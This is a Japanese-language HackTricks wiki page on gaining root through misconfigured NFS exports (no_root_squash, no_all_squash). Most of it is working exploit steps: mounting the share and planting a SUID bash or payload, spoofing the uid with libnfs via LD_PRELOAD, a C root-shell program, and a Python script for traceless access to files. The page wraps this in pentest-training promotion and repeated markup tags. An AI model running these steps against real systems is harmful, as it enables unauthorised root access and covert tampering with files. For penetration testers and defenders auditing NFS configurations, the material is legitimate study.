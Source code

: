 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


_ **/etc/exports** _ ファイルを読み、**no\_root\_squash** として設定されているディレクトリが見つかった場合、**クライアントとして**それに**アクセス**し、そのディレクトリの中に**書き込む**ことができます。まるでそのマシンのローカル**root**であるかのように。

**no\_root\_squash**: このオプションは基本的に、クライアントのrootユーザーにNFSサーバー上のファイルにrootとしてアクセスする権限を与えます。これにより深刻なセキュリティ上の問題が生じる可能性があります。

**no\_all\_squash:** これは**no\_root\_squash**オプションに似ていますが、**非rootユーザー**に適用されます。例えば、nobodyユーザーとしてシェルを持ち、/etc/exportsファイルを確認し、no\_all\_squashオプションが存在し、/etc/passwdファイルを確認し、非rootユーザーをエミュレートし、そのユーザーとしてsuidファイルを作成（nfsを使用してマウント）します。そのsuidをnobodyユーザーとして実行し、異なるユーザーになります。

# Privilege Escalation

## Remote Exploit

この脆弱性を見つけた場合、次のように悪用できます：

* **そのディレクトリを**クライアントマシンに**マウントし、rootとしてマウントされたフォルダ内に**/bin/bash**バイナリをコピーし、**SUID**権限を与え、被害者マシンからそのbashバイナリを実行します。
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **クライアントマシンでそのディレクトリをマウントし、** マウントされたフォルダ内に **rootとして** SUID権限を悪用するコンパイル済みペイロードをコピーし、それに **SUID** 権限を与え、**被害者** マシンからそのバイナリを **実行** します（ここにいくつかの[C SUIDペイロード](payloads-to-execute.md#c)があります）。
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Local Exploit

{% hint style="info" %}
注意してください、もしあなたが**あなたのマシンから被害者のマシンへのトンネルを作成できるなら、必要なポートをトンネリングしてこの特権昇格を悪用するためにリモートバージョンを使用することができます**。\
次のトリックは、ファイル`/etc/exports`が**IPを示している場合**です。この場合、**リモートエクスプロイトを使用することはできず**、**このトリックを悪用する必要があります**。\
エクスプロイトが機能するためのもう一つの必要条件は、**`/etc/export`内のエクスポートが`insecure`フラグを使用していることです**。\
\--_もし`/etc/export`がIPアドレスを示している場合、このトリックが機能するかどうかはわかりません_--
{% endhint %}

## Basic Information

このシナリオは、ローカルマシン上のマウントされたNFS共有を悪用し、クライアントがそのuid/gidを指定できるNFSv3仕様の欠陥を利用して、無許可のアクセスを可能にするものです。悪用には、NFS RPCコールの偽造を可能にするライブラリ[libnfs](https://github.com/sahlberg/libnfs)を使用します。

### Compiling the Library

ライブラリのコンパイル手順は、カーネルバージョンに基づいて調整が必要な場合があります。この特定のケースでは、fallocateシステムコールがコメントアウトされていました。コンパイルプロセスには、次のコマンドが含まれます：
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### 攻撃の実行

攻撃は、特権をルートに昇格させ、シェルを実行するシンプルなCプログラム（`pwn.c`）を作成することを含みます。プログラムはコンパイルされ、結果として得られたバイナリ（`a.out`）は、RPC呼び出しでuidを偽装するために`ld_nfs.so`を使用して、suid rootで共有に配置されます。

1. **攻撃コードをコンパイルする:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **攻撃を共有に配置し、uidを偽装してその権限を変更する:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **攻撃を実行してルート権限を取得する:**
```bash
/mnt/share/a.out
#root
```

## ボーナス: NFShellによるステルスファイルアクセス
ルートアクセスが取得されたら、所有権を変更せずにNFS共有と対話するために（痕跡を残さないために）、Pythonスクリプト（nfsh.py）が使用されます。このスクリプトは、アクセスされるファイルのuidに一致するようにuidを調整し、権限の問題なしに共有上のファイルと対話できるようにします:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
実行するには：
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
